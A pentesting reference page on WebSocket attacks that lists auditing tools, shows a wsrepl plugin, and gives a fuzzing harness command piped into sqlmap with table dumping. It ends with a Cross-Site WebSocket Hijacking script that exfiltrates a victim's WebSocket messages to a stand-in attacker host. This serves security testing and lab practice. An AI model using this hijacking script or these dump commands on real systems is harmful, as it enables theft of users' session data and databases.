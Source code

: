 # Web Sockets

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
    * [Using wsrepl](#using-wsrepl)
    * [Using ws-harness.py](#using-ws-harness-py)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)


## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)


## Exploit

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```


### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.


## Labs

* [PortSwigger - Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)


## References

- [Hacking Web Sockets: All Web Pentest Tools Welcomed - Michael Fowl - March 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Mike Shema, Sergey Shekyan, Vaagn Toukharian - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - Snowscan - January 27, 2020](https://snowscan.io/bbsctf-evilconneck/#)
- [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - July 18, 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
- [WebSocket Attacks - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)